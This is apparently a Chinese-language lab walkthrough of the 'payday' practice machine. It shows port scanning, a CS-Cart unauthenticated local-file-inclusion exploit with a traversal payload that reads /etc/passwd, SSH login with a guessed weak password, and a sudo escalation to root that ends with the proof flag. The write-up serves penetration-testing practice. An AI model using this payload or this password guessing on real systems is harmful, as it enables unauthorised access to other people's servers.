


# 端口枚举

```bash
[~/Desktop/pg/glider]
└─$ sudo nmap --top-ports=50 -Pn 192.168.178.39
[sudo] password for aaron: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-07 08:12 +0430
Nmap scan report for 192.168.178.39
Host is up (0.23s latency).
Not shown: 42 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
993/tcp open  imaps
995/tcp open  pop3s
```

# 网页枚举

通过浏览器访问发现title是叫`CS-Cart`, 尝试在 `searchsploit`搜索相关脚本

```bash
[~/Desktop/pg]
└─$ searchsploit cs-cart             
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
CS-Cart - Multiple SQL Injections                                                 | php/webapps/27030.txt
CS-Cart 1.3.2 - 'index.php' Cross-Site Scripting                                  | php/webapps/31443.txt
CS-Cart 1.3.3 - 'classes_dir' LFI                                                 | php/webapps/48890.txt
CS-Cart 1.3.3 - 'classes_dir' Remote File Inclusion                               | php/webapps/1872.txt
CS-Cart 1.3.3 - 'install.php' Cross-Site Scripting                                | multiple/webapps/14962.txt
CS-Cart 1.3.3 - authenticated RCE                                                 | php/webapps/48891.txt
CS-Cart 1.3.5 - Authentication Bypass                                             | php/webapps/6352.txt
CS-Cart 2.0.0 Beta 3 - 'Product_ID' SQL Injection                                 | php/webapps/8184.txt
CS-Cart 2.0.5 - 'reward_points.post.php' SQL Injection                            | php/webapps/33146.txt
CS-Cart 2.2.1 - 'products.php' SQL Injection                                      | php/webapps/36093.txt
CS-Cart 4.2.4 - Cross-Site Request Forgery                                        | php/webapps/36358.html
CS-Cart 4.3.10 - XML External Entity Injection                                    | php/webapps/40770.txt
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

其中看到了文件包含漏洞, 下载下来看看内容是什么

```bash
[~/Desktop/pg/payday]
└─$ cat 48890.txt 
# Exploit Title: CS-Cart unauthenticated LFI
# Date: 2020-09-22
# Exploit Author:  0xmmnbassel
# Vendor Homepage: https://www.cs-cart.com/e-commerce-platform.html
# Tested at: ver. 1.3.4
# Vulnerability Type: unauthenticated LFI


http://www.site.com/[CS-Cart_path]/classes/phpmailer/class.cs_phpmailer.php?classes_dir=[evil_scripts]%00
example:
http://www.site.com/[CS-Cart_path]/classes/phpmailer/class.cs_phpmailer.php?classes_dir=../../../../../../../../../../../etc/passwd%00
http://www.site.com/classes/phpmailer/class.cs_phpmailer.php?classes_dir=../../../../../../../../../../../etc/passwd%00 
```

下载下来观望了之后发现第三个方法或许会有用



l利用了之后发现能够执行本地文件包含

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:x:100:101::/nonexistent:/bin/false
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
dovecot:x:104:111:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
postfix:x:105:112::/var/spool/postfix:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
patrick:x:1000:1000:patrick,,,:/home/patrick:/bin/bash
```

根据`/etc/passwd`的结果来看, 得知这里有一个`patrick`用户, 所以根据`.ssh`的目录去尝试查看是否有`id_rsa`的文件能够登录.



但是并没有发现`.ssh`文件, 最后只能尝试使用`patrick:patrick`密码去登录, 或许这就是一个弱密码的凭据


```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/glider]
└─$ ssh patrick@192.168.178.39  
The authenticity of host '192.168.178.39 (192.168.178.39)' can't be established.
DSA key fingerprint is SHA256:UtI16p2JU9a/SuF1RZ3eUAYqCLBtgOewIPtIdm7kNNA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.178.39' (DSA) to the list of known hosts.
patrick@192.168.178.39's password: 
Linux payday 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
patrick@payday:~$ ls
local.txt
patrick@payday:~$ 
```

果然, 这个密码是有效的, 登录上去之后可以查看local.txt,紧接着使用`sudo -l` 看一下这个用户有的权限, 发现可以使用`sudo`执行所有权限, 所以直接使用`sudo su`来切换到root用户

```bash
patrick@payday:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for patrick:
User patrick may run the following commands on this host:
    (ALL) ALL
    
    
patrick@payday:~$ sudo su
root@payday:/home/patrick# ls /root/proof.txt 
/root/proof.txt
root@payday:/home/patrick# cat /root/proof.txt 
0f317158db806420a3d4d80701c2aa79
root@payday:/home/patrick# 

```

